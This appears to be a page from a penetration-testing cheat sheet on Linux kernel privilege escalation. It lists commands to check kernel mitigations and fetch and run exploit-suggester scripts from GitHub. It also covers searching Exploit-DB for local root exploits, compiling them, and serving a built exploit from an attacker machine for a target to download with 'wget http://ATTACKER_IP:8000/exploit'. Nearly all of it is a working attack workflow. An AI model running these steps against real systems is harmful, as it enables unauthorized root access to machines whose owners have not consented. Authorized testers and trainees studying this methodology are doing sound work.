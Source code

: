- Check mitigations and relevant kernel config:
```
# SMEP/SMAP presence
grep -iE 'smap|smep' /proc/cpuinfo
dmesg | grep -iE 'smap|smep' 2>/dev/null

# KASLR (kernel address randomization) indication
dmesg | grep -i 'randomize' 2>/dev/null
cat /boot/config-$(uname -r) 2>/dev/null | grep -i RANDOMIZE_BASE

# Other knobs that impact some PoCs
sysctl kernel.kptr_restrict kernel.dmesg_restrict kernel.perf_event_paranoid kernel.unprivileged_userns_clone 2>/dev/null
cat /proc/sys/kernel/randomize_va_space 2>/dev/null
cat /boot/config-$(uname -r) 2>/dev/null | egrep 'CONFIG_USER_NS|CONFIG_KEYS|CONFIG_KALLSYMS|CONFIG_MODULES'
```

- Shortlist candidate exploits:
```
cd /dev/shm 2>/dev/null || cd /tmp

# linux-exploit-suggester (LES)
wget -q https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh
chmod +x les.sh
./les.sh

# linux-exploit-suggester-2 (LES2)
wget -q https://raw.githubusercontent.com/jondonas/linux-exploit-suggester-2/master/linux-exploit-suggester-2.pl -O les2.pl
perl les2.pl
```

- Search Exploit-DB for PoCs:
```
# Broad search by kernel major.minor
ver=$(uname -r | cut -d- -f1); echo "Kernel base: $ver"
searchsploit "Linux Kernel $ver" "local privilege escalation"

# If you have a specific CVE from LES
searchsploit CVE-2016-5195
# Mirror an exploit to current dir (example ID; replace with your target)
# searchsploit -m linux/local/xyz.c
```

- Build the exploit on target (if gcc present):
```
which gcc || which cc
# Example: compile with static if possible; fall back to dynamic
gcc exploit.c -O2 -static -o exploit 2>/dev/null || gcc exploit.c -O2 -o exploit
```

- Cross-compile static on attacker (Kali/Debian) if target lacks gcc:
```
# On attacker
sudo apt update
sudo apt -y install build-essential musl-tools
musl-gcc exploit.c -Os -static -s -o exploit

# Serve & fetch
python3 -m http.server 8000
# On target
cd /dev/shm 2>/dev/null || cd /tmp
wget http://ATTACKER_IP:8000/exploit -O exploit
chmod +x exploit
```
